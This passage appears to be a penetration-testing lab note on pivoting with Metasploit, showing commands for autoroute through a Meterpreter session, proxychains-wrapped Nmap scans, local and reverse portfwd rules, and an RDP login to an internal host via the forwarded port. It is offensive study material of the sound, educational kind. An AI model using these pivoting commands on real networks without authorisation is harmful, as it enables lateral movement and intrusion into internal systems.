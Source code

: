 > Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.
{: .prompt-tip}

Now use **AutoRoute**:
```console
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session:
```console
meterpreter > run autoroute -s 172.16.5.0/23 

...
[*] Use the -p option to list all active routes
```

```console
meterpreter > run autoroute -p 

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

We will now be able to use proxychains to route our Nmap traffic via our Meterpreter session:
```console
zero@pio$ proxychains nmap <TARGET> -p3389 -sT -v -Pn
```

We can also use the `portfwd`:
```console
meterpreter > help portfwd

Usage: portfwd [-h] [add | delete | list | flush] [args]
```

```console
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session:
```console
zero@pio$ xfreerdp /v:localhost:3300 /u:<USER> /p:<PASSWORD>
```

Similar to local port forwards, Metasploit can also perform **reverse port forwarding** with the below command:
```console
meterpreter > portfwd add -R -l 8081 -p 1234 -L <OUR IP>
```
